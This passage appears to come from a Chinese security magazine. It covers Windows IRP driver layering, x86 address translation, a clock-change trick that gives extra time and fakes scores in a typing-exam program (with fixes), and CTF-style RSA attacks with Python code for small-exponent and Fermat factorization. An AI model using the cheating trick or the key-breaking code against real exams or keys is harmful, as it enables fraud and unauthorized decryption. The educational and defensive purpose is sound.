这里可以将 I/O 管理器理解为一个中转站，它是由一系列内核模式下的例程所组成，这些例程对上即用户来说提供了统一的接口，对下则构造 IRP，用于发起 I/O 请求。其包含的例程都以 IO 开头，其中一个很重要的函数就是 IoCallDriver，该函数利用设备对象和 IRP 参数，通过设备对象找到对应的驱动对象，进而确定对应的分发函数，并将 IRP 传递给该分发函数。

如果上述的动作只是一个写操作，那么经过步骤①—④后，将要求数据写入硬件即可，但对于读操作，当通过上述步骤给硬件下达读取数据的指令后，需要等待硬件将数据返回。在这里根据等待机制的不同分为两种方式：同步方式和异步方式。注意，使用这两种方式中的哪一种，是由用户在最初调用系统 DLL 中的函数指定的。

同步方式很好理解，当下达读取指令时，程序流在此停止，直到有数据返回，再继续执行，而异步方式则不同，当下达数据读取指令后，程序流继续执行，当数据返回时，硬件通过中断方式将数据提交给申请的线程。这里要使用中断对象、DPC、APC 的概念，读者可以查阅相关的资料。异步方式是 Windows 驱动实现的通用方式，而同步方式则是建立在异步方式下实现的。

### 2）穿越的媒介：IRP

前面提到，I/O 管理器在接受任务后，会构造 IRP，那么 IRP 的庐山真面目是什么呢？IRP 的中文名字为 I/O 请求包（I/O Request Packet），本质上就是一个数据结构，一个完整的 IRP 包是 IRP 头加上 N 个 I/O 栈单元的组合，如图 2 所示。每个 I/O 栈单元的结构是一致的，至于这个 N 是多少，取决于设备对象堆叠的个数。
图 2 IRP 结构

IRP 头包含了诸如 MdlAddress、IoStatus、StackCount、CurrentLocation、CurrentStackLocation、OriginalFileObject 等与 IRP 相关的通用信息。其中 StackCount 指明了驱动堆栈的层数，CurrentLocation 指明的是目前使用的哪个栈单元，指针 CurrentStackLocation 与 CurrentLocation 类似，但它是一个指向结构 _IO_STACK_LOCATION 的指针，代表的是每个栈单元的实际地址。

I/O 栈单元中的内容与该 IRP 的传递息息相关，其结构为 _IO_STACK_LOCATION，每个栈单元对应一层设备对象的堆叠。_IO_STACK_LOCATION 结构中主要成员包括 MajorFunction、MinorFunction、DeviceObject、FileObject、CompletionRoutine，以及各种功能函数的参数，其中 MajorFunction 和 MinorFunction 指明的是该设备对象的 I/O 请求主/次功能码，DeviceObject 指向的是该栈单元对应的设备对象，FileObject 指向的是该栈单元对应的文件对象，而 CompletionRoutine 中登记的是该栈单元对应的完成例程。其中以文件对象（FileObject）为起点，可以通过文件对象→设备对象→驱动对象→分发例程的流向定位到分发例程。

### 3）一个读操作的实现

以上我们简述了驱动使用的基本框架，并讲解了 IRP 的结构，下面我们以一个读操作的例子来说明一个单层驱动调用的整体框架。以图 1 的结构为例，如我们现在处理的是单层驱动，而此驱动能够读取对应硬件中的数据，那么一个数据读取的步骤为：

- 应用程序调用 NtReadFile(hFile, •••)，进入系统 DLL 空间；
- 系统 DLL 中的 NtReadFile(hFile, •••) 调用系统服务中的 NtReadFile(hFile, •••) 函数，从而进入系统模式；
- I/O 管理器为此次的读文件请求创建一个 IRP，此时由于只有一层驱动，所以仅构造一个栈单元，该栈单元被填充的内容为传递的参数，指明 IRP 的主次功能码，并设置完成例程。
- 好了，现在设备对象和 IRP 都已经准备好了，接下来 I/O 管理器调用 IoCallDriver(pDeviceObject, IRP)，IoCallDriver 函数中最主要的代码为：

```cpp
Status = driverobject->MajorFunction[irpSp->MajorFunction](DeviceObject, Irp)


```

这段代码将 DeviceObject 和 IRP 作为参数传给驱动对象中对应的分发函数。

- 进入分发函数，就是驱动函数发挥的天地，一般来说，采用异步方式，该函数会对硬件下达读取数据的指令，并返回。
- 当硬件将数据返回时，会触发一个中断，该中断使用哪个中断向量，并使用哪个中断对象中的 ServiceRoutine，是在驱动程序安装时就确定的。一般来说 ServiceRoutine 会处理一些需要在此中断级别处理的紧急操作，而将不太紧急的操作放于 DPC 中，进而降低中断级别，保证别的中断可以得到及时的响应。
- 当进入该中断对应的 DPC 例程时，该 DPC 会调用 I/O 管理器中的 IoCompleteRequest 函数，该函数会给原始线程投递一个 APC，进而将驱动得到的数据输送到原始线程的用户空间，结束一次硬件读取之旅。

### 多层驱动程序的穿越

### 1）驱动的叠加

驱动程序的叠加充分体现了结构化程序的设计思想。举一个例子，以我们最常见的硬盘为例，硬盘有很多种，如 IDE 硬盘、SCSI 硬盘等，可以将针对硬盘的驱动分为专用驱动和公共驱动。对于每种硬盘来说，都有两层驱动为其服务，在实现结构上，就体现为硬盘通用驱动对应着一个设备对象，而每种硬盘单独对应各自的一个设备对象，以后接入新种类的硬盘时，只用更新专用驱动就可以了，而通用驱动共用。
图3 多层驱动框架

当处理多层驱动堆叠时，IRP 需要不停地在驱动程序和 I/O 管理器之间进行传递。图 3 的结构比较清楚地说明了 IRP 穿越之旅的路径。与单层驱动程序框架的不同之处在于，这次有 N 层的驱动程序叠加，那么 IRP 构建之初便有 N 个 I/O 栈单元，每层栈单元对应着一层驱动。我们在数据结构中都学习过栈的概念，栈最重要的特点就是“后进先出”。这里针对 I/O 栈单元的操作，顶层驱动程序对应的栈单元被置于栈单元的底部，如图 3 左侧所示，因此随着调用驱动层数的增加，使用的栈单元是逐步上移的；同样，当一个异步操作完成时，每一层驱动完成例程的调用是由下到上，栈单元指针的变化则对应着逐步下移。

为了更加具体地说明分层驱动的调用流程，我们用分步走的方式来看看 IRP 的穿越之旅。在系统服务到达 I/O 管理器中 IoCallDriver 函数之前，I/O 管理器完成的工作与单层驱动框架类似，任务依然是取得 DeviceObject 和构造 IRP，但有所不同：此时的 DeviceObject 指向的是叠加驱动程序的顶层，而 IRP 中 I/O 栈单元的个数与驱动程序叠加的层数一致，此时 IRP 结构的 CurrentLocation 成员指向栈单元的底部。准备好这些，IoCallDriver 启动，很自然会调用第一层驱动中的分发代码。进入分发例程后，当该层驱动有完成例程时，调用 IoCopyCurrentIrpStackLocationToNext(pIrp)，并通过 IoSetCompletionRoutine 函数设置完成例程；无完成例程时，调用 IoSkipCurrentIrpStackLocation(pIrp)。至于这两个函数的区别，我们暂时按下不表，在下节会进行详细分析。在完成上述步骤后，程序会跳回 I/O 管理器，I/O 管理器修改 CurrentLocation 指针，指向第二层驱动的栈单元，同样在 IoCallDriver 中调用第二层驱动中的分发函数，如此往复；但当到达最后一层驱动程序时，在这段代码中直接调用硬件的对应函数。而当硬件数据返回时，同单层驱动类似，会进入中断对象，进而调用中断对象中的 ServiceRoutine，找到注册的 DPC，通过在 DPC 中调用 IoCompleteRequest 函数调用各层驱动完成例程。注意，此时的完成例程是按照驱动堆叠从底向上顺序调用的，直到最后一个完成例程中返回用户空间。

## 2）一个穿越多层驱动的例子

很多文章讲解这部分内容时，往往直接祭出带有 `IoCopyCurrentIrpStackLocationToNext(pIrp)`、`IoSkipCurrentIrpStackLocation(pIrp)` 函数的代码，其中对于指针 CurrentLocation 的加 1、减 1 的一系列操作繁琐，不易理解。下面我们尽量避免复杂的指针操作，只用一个例子来说明在 IRP 的传递过程中，IRP 每一层中内容的变化，理解使用 `IoCopyCurrentIrpStackLocationToNext(pIrp)` 与 `IoSkipCurrentIrpStackLocation(pIrp)` 两个函数的区别。

举例之前，我们可以在脑海中将 I/O 栈单元中的内容简化，将 I/O 栈单元中的内容理解为上一层程序或者驱动传递给该层驱动的参数，这个参数仅包括 I/O 请求功能码和完成例程。很显然，传递给最顶层驱动的参数（功能码和完成例程）都是在调用该层驱动程序之前填充的，那么当第一层驱动完成自己的代码后，会向第二层驱动传递何种参数，它会有两种选择：

- 1. 这一层驱动没有完成例程，并且功能码不变，那么第二层驱动完全可以使用现有的参数，复用该栈单元，因此使用 `IoSkipCurrentIrpStackLocation(pIrp)`，下一层驱动仍然使用与上一层驱动相同的参数。
- 2. 这一层有自己的完成例程，那么显然顶层栈单元中内容就不能复用了，因为完成例程是不同的，于是调用 `IoCopyCurrentIrpStackLocationToNext(pIrp)` 函数，将功能码拷贝入第二层驱动对应的栈单元，之后调用 `IoSetCompletionRoutine` 函数，在第二层栈单元中设置完成例程。

同样的道理延续下去，在最底层，驱动的完成例程不是放于栈单元中，而是注册在中断对象的中断服务例程中。如此算来，I/O 管理器调用顶层驱动前占用了一个栈单元，而最底层驱动没有占用栈单元，所以当有 N 层驱动叠加时，总体的栈单元个数最多仍为 N 个。为什么是最多呢？很简单，当驱动调用函数 `IoSkipCurrentIrpStackLocation(pIrp)` 时，实际上并没有使用新的栈单元，因此会导致在多层驱动堆叠时，实际利用的栈单元可能小于 N 个。

好了，理解了这些我们来试看一个例子。我们假设一个硬件设备有 4 层的驱动堆叠，分别对应着设备对象 A-D，其中设备对象 A、C、D 有完成例程，而设备对象 B 没有，那么我们看看 IRP 中栈单元在传递过程中的变化。将时间暂停在调用第一个驱动对象中的分发函数之前的一瞬，此时 I/O 管理器填充好了给驱动 A 的参数以及初始化完成例程，其情形如图 4 所示。
图 4 多层驱动框架示例 1

IRP 构建之初，在第 4 层的 I/O_STACK_LOCATION 中由构建的程序填写参数和初始化回调函数的指针。这一层回调函数肯定是需要的，因为需要通过这个回调函数转入调用者的代码。

下面让时间继续前进，我们进入设备对象 A 的驱动程序。A 设备说了，当数据返回我时，我还要处理那些数据，需要设置一个完成例程，那么在该驱动程序内部会调用 `IoCopyCurrentIrpStackLocationToNext(pIrp)` 函数，将最后一个栈单元的内容拷贝到第 3 层，并通过函数 `IoSetCompletionRoutine` 设置 A 的回调函数。完成这些，此时 I/O 栈单元的内容如图 5 所示，其后调用 `IoCallDriver` 函数，进入驱动 B 中的分发函数。
图 5 多层驱动框架示例 2

当执行驱动 B 中的分发函数时，由于驱动 B 无需完成例程，驱动 B 和驱动 C 可以共用参数，此时在驱动 B 的分发函数中调用 `IoSkipCurrentIrpStackLocation(pIrp)` 函数。执行这个函数的结果是在驱动 C 执行其分发函数时，IRP 中的 `CurrentLocation` 不变，驱动 B 中调用的参数和驱动 C 中调用的参数是一样的。完成这些，此时 I/O 栈单元的内容如图 6 所示，其后调用 `IoCallDriver` 函数，进入驱动 C 中的分发函数。
图 6 多层驱动框架示例 3

当执行驱动 C 中的分发函数时，由于驱动 C 需要完成例程，同驱动 A 中的处理，调用 `IoCopyCurrentIrpStackLocationToNext(pIrp)` 函数复制参数，并通过函数 `IoSetCompletionRoutine` 设置 A 的回调函数。完成这些，此时 I/O 栈单元的内容如图 7 所示，其后调用 `IoCallDriver` 函数，进入驱动 D 中的分发函数。
图 7 多层驱动框架示例 4

注意，此时 D 作为最底层的设备对象，如前所述，其完成函数不存放在 IRP 的栈单元中，而是放于中断对象中，而其使用的参数在第 2 层的栈单元中，因此虽然这个设备是 4 层驱动堆叠，但是只使用了 3 层 I/O 栈单元。

#### 小结

以上我们通过分别介绍单层驱动与多层驱动的 IRP 传递机制，讲解了 IRP 的穿越之旅，难点在于大家理解整个驱动程序的调用框架，以及 `IoCopyCurrentIrpStackLocationToNext(pIrp)` 与 `IoSkipCurrentIrpStackLocation(pIrp)` 两个函数的区别。

### 被忽略的计时与倒计时 Bug

文/图 BadTudou

> 问：1，2，3！3，2，1！这是什么？

答曰：计时！倒计时！

单位要组织文字录入考试比赛，使用的是一个免费软件：文字录入考试系统。软件分为两部分：学生端（图1）和教师端（图2）。
图 1；图 2

在教师端中运行“考试向导”，将考试时间设为 5 分钟，等待学生端接入。学生端在“网络设置”中设置好服务器 IP 地址和端口号等信息后，单击“考试模式”进入考试界面（图3）。

此时，显示已用时间为 0 秒，倒计时为 300 秒。单击“开始考试”，在考试开始一段时间后，用时由 0 开始增加，倒计时由最初的 300 不断减少（图 4）。
图 3

图 4

当时间达到设定的 5 分钟后，已用时间显示为 300，学生端考试结束（图 5）。
图 5

此过程中，学生端单击“开始考试”后，软件获取此时的系统时间，记为 start_time，而后系统不断获取当前系统时间，记为 now_time，已用时间 = now_time - start_time，倒计时 = 设定的考试时间 - 已用时间。

在更新考试倒计时过程中，软件需要不断获取系统当前时间，如果在这个过程中我们更改系统时间，是不是就能得到更多的考试时间呢？

设置考生姓名为“测试二”，重新进入考试，经过一段时间后，显示已用时间为 8，倒计时为 292，如图 6 所示。
图 6

此时进入“控制面板”中的“日期和时间”选项，将系统时间提前约 2 分钟，进入考试界面，显示已用时间为 -77，倒计时为 377，如图 7 所示。
（图 7）

直至考试结束，我们此次考试时间超过了系统所设定的 5 分钟，但在最后提交的成绩中，测试二的考试时间仍为 5 分钟。利用这个漏洞，我们可以随意伪造自己的文字录入成绩。由此可见，在常见的计时或倒计时功能中，存在着很大的 Bug，即用户可以有针对性地修改系统当前时间，以达到所预期的目的。针对这种情况，下面是两个可行的计时示例。

- 一是使用 Sleep 函数，其实现代码如下：

```cpp
#include "stdio.h"
#include "windows.h"
using namespace std;

int main(int arc, char *argv[])
{
    int i = 0;
    while (TRUE)
    {
        Sleep(1000);    // 暂停线程，单位为毫秒，1000 毫秒记为 1 秒
        i++;
        printf("已用时间：%d\n", i);
    }
    return 0;
}
```

- 二是使用 GetTickCount 函数，其实现代码如下：

```cpp
#include "stdio.h"
#include "windows.h"
using namespace std;

int main(int arc, char *argv[])
{
    int istart = 0;
    istart = GetTickCount(); // 获取系统启动以来到现在的时间

    while (TRUE)
    {
        int i = GetTickCount() - istart; // 获取已用的时间，单位为毫秒，除以 1000 得到秒数
        printf("已用时间：%d\n", i / 1000);
    }
    return 0;
}


```

在程序编写中，大多数人喜欢通过获取系统当前时间与起始时间的差来计时，这样往往会因为用户恶意修改系统当前时间而造成意想不到的后果，如曾有人通过系统时间来延长杀毒软件的使用期。对于软件而言，这是一个被大多数人所忽略的 Bug！如果是文中类似的 C/S 模型，则应该统一由服务端计时，以避免这种情况的发生。

### 一次艰辛的寻址之旅

文/图 王晓松

很久以前看过一部影片，讲述的是一群从劳动营逃出的人翻雪山过草地，经过艰难跋涉，终于回到家乡的故事。在使用 Intel 芯片的 Windows 系统中，一个虚拟地址被定位到其对应的物理地址，也需要使用事先精心搭建的管理结构，步步为营，精确定位，方能准确无误地找到目的地址。

#### 基础知识

### 1）物理地址

电影《海洋》里有一句话：“什么是海，什么是洋呢？”在操作系统中，我们经常会看到“地址”“数据”的字眼，那么究竟什么是操作系统中的地址和数据呢？请看图 1。
操作系统最底层的工作就是对数据的操作，CPU 本身并不存储数据，只是一个操作者，数据在外面设备。当 CPU 与外面设备交互数据时，需要到某个地址读取或者写入数据。操作系统中的地址和我们生活中的概念非常类似，比如小王在银行有五个寄存柜，分别是保险库的第 1、5、7、9、11 号柜，取东西时，他会告诉银行保管人员“麻烦取下第 11 号柜的物品”。这句话体现在操作系统中就是如图 1 使用的地址总线与数据总线。为了有效地读写数据，会有读控制线、写控制线相连。一般来说，外面设备都会有一个 en 引脚，该引脚上输入电平的变换可以决定该设备是否生效；若是不生效，则外面设备侧的地址、数据总线对外呈现为高阻状态，空气是高阻的，所以可以理解为该器件不存在。当需要从某个地址读取数据时，只要将地址总线设为对应的地址值，通过控制“读时序线”即可在数据总线上得到相应的数据（写时序与此类似）。

举个例子，设地址总线是八位长 A7-A0，要访问地址 0x83，则 [A7-A0] 应为 10000011B。换句话说，将 A7-A0 设为 10000011B 后，通过“读控制线”时序的变换，外面设备就会将需要的数据双手奉上在数据总线上，CPU 读入 D7-D0 上的值后即可完成一次读入操作。

对于 CPU 来说，它会访问多个外面设备，那么地址分配又是如何实现的呢？也很简单，请看图 2。假设现在有两个外面设备，每个地址空间都是 8 位，即 [A7-A0]，若要 CPU 访问两个设备合起来的空间，CPU 需要 9 位 [A8-A0]。换句话说，CPU 地址总线是 9 位，可以访问 2^9=512 个地址单元，而每个外面器件共有 2^8=256 个地址单元。我们想将外面设备 1 映射到高 256 地址，外面设备 2 映射到低 256 地址，实现方法如图 2 所示。在硬件连接上，[A7-A0] 与外设 1 和外设 2 的 [A7-A0] 同时相连，数据总线仍保持 8 位 [D7:D0]，也同时与外设 1 和外设 2 相连。地址线 A8 的接法需要特别设计，前面说过每个外设都有一个使能引脚，地址线 A8 与两个外部设备使能引脚的连接关系如图 2。当访问的空间大于 2^8=256 时，A8=1，即器件 1 生效，读取的内容为器件 1 的；此时器件 2 的使能引脚无效，地址总线、数据总线上的信号不会对总线上的数据产生影响。而当访问的空间小于 2^8=256 时，A8=0，即器件 2 生效，读取的内容为器件 2 的。
图 2 多个外围设备的地址复用

通过这种方式，有效地将 CPU 的 [A8-A0] 的空间划分为 2 个 [A7-A0]，完成了多个外围设备被纳入 CPU 的一个空间范围内。我们在计算机中要接入很多的外围设备，其物理地址空间的划分方法本质上就是这种思想。

### 2）虚拟地址

以上我们举了个银行寄存柜的例子，现在对于用户来说可能会存在以下两个问题：

- 1. 用户记号码很费劲，比如前一节举的例子，枯燥得没有规律的数字 1、5、7、9、11，很容易记错。
- 2. 有些用户的柜子不用，但也必须无条件为该用户保留。

精明的银行家想出了一个好办法，给每个用户的卡号都是 [1-10] 号专用，用户只要有业务，不用记什么长长的无规律的号码，由管理员负责找到其名下用户需要的柜子。当然对于管理员来说，是很清楚从用户的柜号到实际上保险库柜号的映射关系的。而且对于银行家来说，柜子可以得到尽量高效的使用，可能一个用户拥有的十个柜子，只有五个柜子使用，那么银行家完全可以先分配五个柜子，其余的五个等用时再分配，这样柜子的使用效率也得到提高。

以上例子正是操作系统使用保护模式所包含的思想。对于现代操作系统来说，实现多进程是不可置疑的，我们可以将进程比作用户，而内存就是银行保险库，里面有很多个存物柜（对应着内存的一页）。若多个进程共享物理内存，互相的地址可以访问，则会存在上述例子中的不足：地址的管理复杂，尤其是需要进程本身去管理，为了避免和其他进程冲突，这几乎是不可能的。若某个进程申请了较大的空间，那么对这段地址的使用是独占的，即使并不用，也不能分配给别的进程，效率低。依照上面的思想，解决的办法也是显而易见的：给每个进程分配一个独立的地址空间，即每个进程都有一个虚拟的地址空间（对于 32 位的 CPU 来说，每个进程的地址空间为 2^32=4G）。至于虚拟地址到物理地址的映射，用一个被称为 MMU（内存管理单元）的专门部件实现，由此，保护模式诞生了。

我们再看看 Windows 的实现，无论对于虚拟地址空间，还是物理地址空间，都使用页面（大小为 4K）作为内存管理的基本单位，因此虚拟地址到物理地址的映射可以归结为虚拟地址空间的页面到物理地址空间页面的映射。以图 3 为例，进程 1 虚拟地址空间的 2 号页面被映射为物理地址空间的 1 号页面，而 6 号页面被映射为 7 号页面。不同的进程之间地址空间隔离，如同为 2 号页面，进程 1 中的映射为物理地址空间 1 号页面，而进程 2 中的映射为物理地址空间 3 号页面。除非是为了完成内存共享，一般来说，不同进程中的相同号码页面映射的物理页面并不相同。
## 寻址之旅

### 1. 映射关系的纽带：PTE（Page Table Entry）

好了，从虚拟地址到物理地址的主角 MMU 已经浮出水面，我们可以轻易推测，要将一个长为 32 位的虚拟地址转换为物理地址，需要一个映射表。因为内存一页的大小为 4K，所以最直接的映射方式就是取虚拟地址的前 20 位作为虚拟页面序号，形成如图 4 的对应关系，我们可以称这种方案为直接映射方案。在操作系统中，这个映射表被称为页表，其中每一个条目被称为页表项（PTE，Page Table Entry）。当 MMU 拿到一个虚拟地址，直接取前 20 位，在页表中一查，找到对应的页面号，即可完成映射。
直接映射方案中，每个进程的地址空间是 2^32=4G，则需要 1M 个 PTE，共 4M 大小的空间。注意，这 4M 必须是在物理内存中，而且物理地址必须是连续的；若是这样设计，如果系统有 100 个进程，则页表就要占用整整 400M 的物理地址空间。每个进程的地址空间是 4G，而实际使用的空间很少，所以占用这 400M 物理空间，是一个比较大的浪费，显然不符合现在全国推广的节约精神。

为了解决这个问题，在 Intel 的实现方案中，对 20 位的虚拟页面号进行进一步划分，分成两级，每级 10 位，如图 5 所示。第一级称为页目录索引，对应一个页目录表，每个表项称为页目录项（PDE，Page Directory Entry）；第二级称为页表索引，对应页表。由于页目录索引只有 10 位，因此页目录的大小为 4*1K=4K，每个页目录项控制的地址范围为 4M。同理，每个页表的大小也是 4K，正好一个页面。每个页目录项指向的也是一个页面，但是这个页面存储一个页表，而页表中的每一项则指向一个真正存储数据的页面。使用这种二级索引的好处在于，页目录的 4K 页面始终在物理内存中，而其指向的页表可以用时再分配。比如页目录第 3 项指向的页面范围被第一次使用，此时并没有对应的页表存在，则内存管理器临时分配一个 4K 大小内存，建立页表，再在这个页表中填充目标地址页面的物理地址，完成映射。换句话说，页表页面是可以动态分配的，而只有 4K 大小的页目录页面需要始终在物理内存中。我们称这种映射方案为二级映射方案。与直接映射方案相比，二级映射方案显然更合理实用。
在 Intel 的二级映射方案确定后，我们看看最关键的 PTE、PDE 中的内容是如何构成的，如图 6 所示。
图 6 Intel x86 的硬件 PTE

因为每个物理页面为 4K 大小，所以使用 2^32/2^12=2^20，即 20 位的地址长度就可以满足描述 4G 空间的要求。在 PTE 中，从 0—11 位的 12 个比特为控制标志位，其含义如表 1 所示。

| 位的名称 | 含义 |
|---|---|
| 有效(V) | 此页面是否已经映射入物理内存 |
| 可写(W) | 在单处理器上指明该页面是可读写的还是只读的，在多处理器系统中，指明是否可写 |
| 用户/系统模式(U/S) | 若为 1，则用户模式代码可以访问；若为 0，则只能内核代码访问 |
| 直接写(Wt) | 当发生写操作时，是直接写入内存还是先写入缓存 |
| 禁止缓存(Cd) | 该页面是否禁止缓存 |
| 访问过(A) | 页面是否已经读过 |
| 脏(D) | 页面是否已经写过 |
| 全局(G) | 此页面的 PTE 是否适合于所有的进程 |
| 大页面(L) | 仅对 PDE 有效，指明这是一个大页面 PDE |

表 1 PTE 标志位的说明

上表中各个标志位的说明已经很详细了，实际上 PDE 与 PTE 的结构基本相同。

## 2）映射过程

下面我们看看使用页目录和页表后，虚拟地址到物理地址的转换过程，如图 7 所示。
图 7 映射过程举例

由于页目录索引是从虚拟地址的 22 位到 31 位，共 10 位，并且每个 PDE 占用 4 个字节，因此在一个页面（4K）中就可以存放页目录表（4*2^10）。地址映射的过程是这样的：

- 1. CR3 寄存器存放的内容包含了页目录表的物理地址，取虚拟地址的 22-31 位作为该页目录表的索引，可以得到对应的 PDE；
- 2. 由得到的 PDE，使用图 5 的结构，得到该虚拟地址对应页表的物理地址，将此地址与虚拟地址中的页表索引乘以 4 再相加，得到该虚拟地址对应页面的物理地址；
- 3. 最后，将该页面的物理地址与虚拟地址中的页面偏移再相加，最终确定目标地址。

如果我们对整个过程进行梳理，再结合第一节中关于物理地址的论述，可以想象，如果我们站在内存边上，会发现一次虚拟地址的寻址会出现 3 次对物理内存的访问。

第一次取 PDE，即将 CR3 寄存器中的内容与页目录索引的地址相加，得到 PDE 项的物理地址，通过读时序读出内存中对应地址中的内容。对页表、页面的访问与之类似，因此当对一个地址中的数据读写完成时，实际上要完成三次对物理内存的访问。归结起来，二级转译实际上的动作就是构建三次物理地址，然后访问这三个地址的过程。

前面说过操作系统每个进程的地址空间是相互隔离的，这就要求每个进程的页目录地址不能相同，即每个进程的 PDE 并不相同。这就需要在进程切换时（旧→新）更新 CR3 寄存器，使其指向新进程页目录地址。在每个进程的内核层对象结构 KPROCESS 中，有以下成员：

```c
typedef struct _KPROCESS{
    ......
    ULONG_PTR DirectoryTableBase[2];
    ......
}


```

DirectoryTableBase 成员是一个包含 2 项的数组，DirectoryTableBase[0] 存放的是该进程页目录表的地址，而 DirectoryTableBase[1] 存放的是超空间页目录表的地址。DirectoryTableBase 成员的内容是在进程被创建时赋值的，当进程切换（旧→新）时，操作系统需要将新进程的 DirectoryTableBase 成员内容存入 CR3 寄存器，从而使用新进程的页目录。

## 3）加快映射速度的功臣：TLB

相较直接映射方案，为了得到一个地址中的数据，需要访问内存三次，即取 PDE 一次，取 PTE 一次，最后取数据一次，而直接映射方案只需要两次。不要小看这不起眼的 1 次，在操作系统中，地址的翻译工作是极其频繁的。为了提高效率，在 Intel 的 CPU 实现中使用了 TLB。

TLB 的概念很简单，从其英文全名（Transfer Look-aside Buffer）可以看出，这是一个缓存。TLB 设计的目的就是加快地址转译过程。需要注意一点的是，它并不是操作系统实现的，而是 Intel 处理器在其内部硬件实现。

所谓硬件、软件实现的区别，可以小提一下。通常在操作系统中，虽然允许多线程并发执行，但在某一时间点上，只能有一个线程在运行。而硬件的实现要高效很多，如专用的 ASIC 芯片和通用的 FPGA 芯片。举个例子，比较操作使用较多，在硬件实现中，会将被比较的值同时（注意是同一时间）与多个比较值进行比较，从而快速达到比较的目的。但是通常硬件实现的成本较高，因此只是在一些急需提高效率的算法实现上使用硬件实现。

在 Intel CPU 中实现的 TLB，其格式如图 8 所示。

| 虚拟页面号 | 物理页面 |
|---|---|
| 虚拟页面号 | 物理页面 |
| 虚拟页面号 | 无效 |
| 虚拟页面号 | 物理页面 |
| 虚拟页面号 | 无效 |

图 8 TLB 表

很简单，若一个地址不在 TLB 中，通常使用二级转译得到页面号，之后将此次得到的对应关系存入 TLB。当然，TLB 的大小是有限的，当页面的对应关系发生变化时，如页面换出内存、一个页面的保护属性发生了变化，内存管理器会直接将这个对应关系标识为无效。当进程发生切换时，TLB 中的内容也会被清空。

CPU 在地址转译中各个部件的关系如图 9 所示。CPU 在拿到一个虚拟地址时，会首先查找 TLB，如果没有，再通过 MMU 进行虚拟地址到物理地址的映射，并将结果存入 TLB 中。
图 9 CPU 内部地址映射模块组

#### 小结

本文首先介绍了虚拟地址与物理地址，之后讲解了由虚拟地址到物理地址的转换过程。实际上理解这个过程并不难，最主要是要理解设计的整体思路：这个方案在设计之初是如何构思的，遇到什么样的问题，又是如何解决的。

### RSA 的攻击方法

文/图 修炼中的柳柳

在了解攻击 RSA 的方法前，我们先简单了解一下 RSA 算法中公私钥的生成方式，其一般流程如下：

- 从 `/dev/urandom` 读取 n 位的随机数，使用随机数计算出大数 p 和 q；
- 计算 `n=pq`；
- 计算欧拉函数 `Φ(n)=(p-1)(q-1)`；
- 随机选取 e，满足 `gcd(e, Φ(n))=1`，则公钥即为 `(e, n)`；
- 用 Euclid 算法计算 d，`d*e≡1 mod(Φ(n))`，则私钥即为 `(d, n)`。

以下攻击方法所实现的代码均由 Python 编写。Python 天生支持大数运算，相对于 C、C++ 的高性能，Python 的优点则是方便；同时配合 gmpy 库，可以在获得较好性能的同时方便地对大数进行各类数学操作，如 root、sqrt、gcd、factor 等。

## 试除法

在了解 RSA 算法的情况下，可以知道 RSA 解密的难度就在于对 n 的分解（或者说是对大素数 p、q 的寻找和求乘积）。相对简单的 n，我们能直接编写一个简单的函数对 n 进行因子分解，如图 1 所示。

```python
def factory(n, startx):
    if startx == 0:
        return
    if n % startx == 0:
        print("ok")
        print(startx, n/startx)
    else:
        factory(n, startx-1)

factory(21, 20)
# ok
# 7 3


```

图 1

真实环境下遇到的 n 通常是大数，虽然我们可以考虑用 gmpy 来存储大数并用循环代替递归，但将耗费巨大的时间和计算资源，很明显对 n 直接暴力分解是不现实的。

目前对 RSA 的攻击方法比对 DES 类共享密钥加密法多，并不是 RSA 算法有问题。相较于共享私钥加密法使用的替换和移位、用密钥长度和算法的稳健性来保证数据的安全，RSA 类公开密钥加密依赖的是数学上分解大数质因数的难度和当前计算机的计算能力。但难分解并不是不能分解，特别在实现 RSA 算法的过程中，人们往往很少注意某些细节，导致整个加密系统变得可被攻击。下面是从密码学安全书籍中摘录的一些会导致问题的 RSA 实现细节：公钥 e 不应过小、两素数取值不应相近、不同的 RSA 密钥对不应共模。

我们先来看看公钥 e 过小导致的攻击。我们以 PlaidCTF 2012 RSA（Password Guessing）为例进行说明，它仅提供 rsa.tar 文件，解压后得到 enc.dat 和 id-rsa.pub 文件。很明显，id-rsa.pub 是 OpenSSL 生成的公钥，enc.dat 是加密后的文件。我们用 OpenSSL 验证一下，如图 2 所示。
图 2

可以看到尽管 n 值为 4096bit（4096=512byte*8）且非常大，但我们留意到 e 非常小（e=3）。由于对大数的求幂和求余非常考验计算机的运算速度，为了计算速度，常见的应用中，公钥均选择较小的 e 值来保证速度。比如 OpenSSH 使用 OpenSSL 生成的公钥中，e 都常为 0x10001。较小的 e 值会带来安全隐患，例如在这个 CTF 中，我们可以看一下以下的推导：

e=3  
C = m^3 mod (n) => C + hn = m^3

其中 C 为 cipher 密文，m 为加密前的消息（msg），n 为模数。显而易见，当 m 值越小，h 也越小。RSA 的难点在于大数的分解，显然在这个推导中，加法求幂比分解 n 来得简单。我们不用再纠结于大 n 的因子分解，直接求 m^3=x=C+hn（h=1,2,3,4...）即可。

参考 gmpy 的 root 函数说明，我们可以用如下代码来实现。若 gmpy.root(x, 3) 为整数，则再加个简单的校验，便可找到原来的明文为 gmpy.root(x, 3)[0]，结果如图 3 所示。

```python
if gmpy.root(x,3)[1] == 1:
    msg = gmpy.root(x, 3)[0]
if pow(msg, 3, n) == c:
    print('pwn')


```
图 3

## Fermat 因数分解法

RSA 在产生公钥和私钥前，有个很重要的步骤是使用大随机数产生大素数（具体算法可以参考《网络安全与密码学》），但有个很严重的问题是假如使用的两个素数相近，分解 n 将变得异常简单。推导方法是 Fermat 因数分解法，推导如下：

```text
p * q = n
(a+b)(a-b) = n  =>  a^2 - b^2 = n  =>  a^2 - n = b^2
```

因此仅需循环计算 b^2=a^2-n，并判断 a^2-n 能否正确开二次方就行了。由于 p 与 q 两素数相近，因此 (a+b) 和 (a-b) 也是相近，可以轻易推出 p。p 的取值范围会在 √n 附近波动，这样将非常容易算出 p 和 q，从而推导出 d，就能解密文 cipher 了。详细解析可以参看 http://en.wikipedia.org/wiki/Fermat’s_factorization_method 。

```text
a = sqrt(n)+i  (i = 1,2,3,4...)
b = sqrt(a^2-n)
```

对于这种攻击方法，我们以 baltCTF-2013-rsa 提供的 SimpleRSA.rar 为例进行说明。从下载到的文件来看，enc.txt 为被加密的数据，pubkey.txt 中包含了公钥 e 和 n，用 len(n.decode('hex'))*8 能算出 n 为 1696 位。根据上面的推导，我们可以写出以下代码：

```python
p, q = 0, 0
n = gmpy.mpz(n)
a = gmpy.root(n, 2)[0] + 1    # 开方
while True:
    b = gmpy.root(a*a-n, 2)
    if b[1] == 1:
        print(" >> step 1")
        if (a-b[0]) * (a+b[0]) == n:
